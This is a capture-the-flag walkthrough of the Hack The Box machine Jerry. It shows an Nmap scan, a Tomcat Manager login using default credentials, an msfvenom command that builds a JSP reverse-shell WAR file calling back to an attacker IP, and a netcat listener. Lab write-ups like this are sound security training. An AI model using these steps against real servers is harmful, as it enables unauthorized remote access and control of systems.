 ## Hack The Box - Jerry (10.10.10.95)
Jerry is a medium box from Hack The Box and it is a Windows machine. This machine demonstrates poor practice in the use of default credentials and a lack of file upload sanitization. Our methodology will be to enumerate until we find an attack surface to obtain our initial foothold. In this scenario, we may not need to perform privilege escalation due to the nature of our exploitation. Watch the video walkthough on Youtube <a href="https://www.youtube.com/watch?v=AyWBGTQGEK0">HERE</a> or read along.


[![Watch Video Walkthough](https://raw.githubusercontent.com/michaelyamout/jerry/main/jerry_logo.png)](https://www.youtube.com/watch?v=AyWBGTQGEK0U)

### ENUMERATION
To begin with, we will start a Nmap scan on our target as part of our first enumeration steps. For this, I ussually opt to use <a href="https://github.com/21y4d/nmapAutomator">nmapAutomator</a>, although here I will run a traditional Nmap scan.

```markdown
# Nmap 7.91 scan initiated Sat Dec 18 13:22:41 2021 as: nmap -sC -sV -Pn -oA nmap 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.053s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1![default_credentials3](https://user-images.githubusercontent.com/85421181/146654472-1290c56e-0192-4d09-af3b-4705f1be7239.png)

|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .![default_credentials3](https://user-images.githubusercontent.com/85421181/146654471-60bcf0ec-5cdf-49fd-8de6-c22d7f581ceb.png)

# Nmap done at Sat Dec 18 13:22:57 2021 -- 1 IP address (1 host up) scanned in 15.29 seconds
```

I notice from our scan that port 8080 is hosting Apache Tomcat. Let’s go ahead and visit our webpage and poke around. 

![homepage](https://raw.githubusercontent.com/michaelyamout/jerry/main/homepage1.png)

It seems to be a default installation as hinted by the top banner “If you’re seeing this, you’ve succesfully installed Tomcat. Congradulations!” We notice the option on the right hand side to access either Server Status, Manager App, or Host Manager – all very intresting options and a possible attack surface. 


Upon clicking on Manager App I am presented with a login box: 

![login_prompt](https://raw.githubusercontent.com/michaelyamout/jerry/main/login_prompt2.png)

Considering this is a default installation, defualts credentials would normally be a good start. I guessed the wrong credentials on my first login attempt, but was promptly greeted with a error page which provided the default credentials of tomcat:s3cret.

![default_credentials](https://raw.githubusercontent.com/michaelyamout/jerry/main/default_credentials.png)

I can now login to the Tomcat Web Application Manager. If you’re unfamiliar with this tool, the Tomcat Manager is a web application that can be used to interactively to deploy and manage web applications. With that being said, upon furthur inspection of this web page we notice at the bottom more detailed information about our server and the ability to deploy .WAR files directly from this page. We have found our  attack surface for the initial foothold. 

![attack_surface](https://raw.githubusercontent.com/michaelyamout/jerry/main/login_page4.png)


### EXPLOITATION
If you’re unfamiliar with a .WAR file, it is simply a .JAR file but contains only web related Java files like Servlets, JSP, and HTML. We will be exploiting the ability to upload and deploy these .WAR files directly from the Manager App webpage to our victim machine by crafting a malicous .WAR file as our payload to call back to our attacker machine. 

Time to get our intial foothold. We will craft our payload using msfvenom utilizing the ```java/jsp_shell_reverse_tcp``` payload formated as a war file. Before executing the following command, ensure that ```10.10.10.10``` is replace with your attacker machine’s IP address. 

```markdown
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f war -o Payload.war
```

Now let us upload our shell via the Manager App web page.

![payload](https://raw.githubusercontent.com/michaelyamout/jerry/main/payload5.png)

We can now see our payload populate at the top of the page under Applications. In order to catch our reverse TCP shell we must set up a listener first. We will catch this reverse shell utilizing <a href="https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf">Netcat</a>. To do this, execute the below command and ensure that the port listed in this command is the same declared in our msfvenom command from earlier. 

```markdown
nc -lvnp 1337
```

With our listener established on port 1337 we may now execute our payload on the victim machine. To do so, simply click your payload’s name under the Application second of the web page.

![application](https://raw.githubusercontent.com/michaelyamout/jerry/main/applications6.png)

In a few seconds, we should have a connection on our Netcat listener providing us with a shell to our victim machine! 

![shell](https://raw.githubusercontent.com/michaelyamout/jerry/main/shell7.png)

### Privledge Eslcation
In this scenario, privlege escalation is not required. Upon running the ‘whoami’ command on our victim’s machine we notice we are already NT AUTHORITY\SYSTEM. You can find your flags in C:\Users\Administrator\Desktop\flags listed under a file “2 for the price of 1.txt”. 

### Closing Remarks
Although manual enumeration and exploitation was performed, metasploit modules do exist for this scenario. Utilize ```auxilary/scanner/http/tomcat_mgr_login``` to bruce force the defualt login credentials for our Manager App followed by ```multi/http/tomcat_mgr_upload``` to automatically craft, upload, and deploy your payload. Metasploit will create a listener and catch the reverse TCP shell for you! 

Thanks for reading! 


